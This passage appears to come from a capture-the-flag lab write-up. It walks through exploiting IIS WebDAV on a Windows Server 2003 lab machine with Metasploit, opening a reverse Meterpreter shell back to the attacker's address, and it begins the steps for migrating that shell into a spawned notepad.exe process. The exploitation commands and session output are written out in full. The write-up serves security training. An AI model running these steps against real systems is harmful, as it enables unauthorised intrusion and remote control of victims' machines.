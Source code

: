 ```bash
   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2

```

Here, we've loaded the exploit into metasploit and viewed all the available options it has.  The only one missing is RHOST, and the others appears to be defaults applicable to most installations, so for now we'll just change RHOST to the correct IP, and exploit the vulnerability.

```bash
msf exploit(iis_webdav_scstoragepathfromurl) > set RHOST 10.10.10.15
RHOST => 10.10.10.15
msf exploit(iis_webdav_scstoragepathfromurl) > exploit

[*] Started reverse TCP handler on 10.10.15.51:4444 
[*] Sending stage (957487 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.15.51:4444 -> 10.10.10.15:1030) at 2017-07-31 18:53:43 +0100

meterpreter > 

```

So, running it we have a shell on the remote system.  But there's a slight problem, in that we can't seem to run any standard api commands such as getuid of getpid.  These aren't incredibly useful for just running the shell but they are absolutely vital for any post exploitation command to function.
```bash
meterpreter > getuid 
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```
So to fix this, one thing we can try is migrating the process of our shell to something else.  Sometimes, this can remove whatever restrictions have been placed on our shell.

So we background our shell, and use the post/windows/migrate module.

```bash
meterpreter > background
[*] Backgrounding session 1...
msf exploit(iis_webdav_scstoragepathfromurl) > use post/windows/manage/migrate 
msf post(migrate) > show options 
  
Module options (post/windows/manage/migrate): 
  
   Name     Current Setting  Required  Description 
   ----     ---------------  --------  ----------- 
   KILL     false            no        Kill original process for the session. 
   NAME                      no        Name of process to migrate to. 
   PID                       no        PID of process to migrate to. 
   SESSION                   yes       The session to run this module on. 
   SPAWN    true             no        Spawn process to migrate to. If name for process not given notepad.exe is used. 
```
So here we see that this module will spawn a notepad.exe process and migrate our shell to run within that process.  All we need to give is the name of our shell's session which we set to the background earlier.
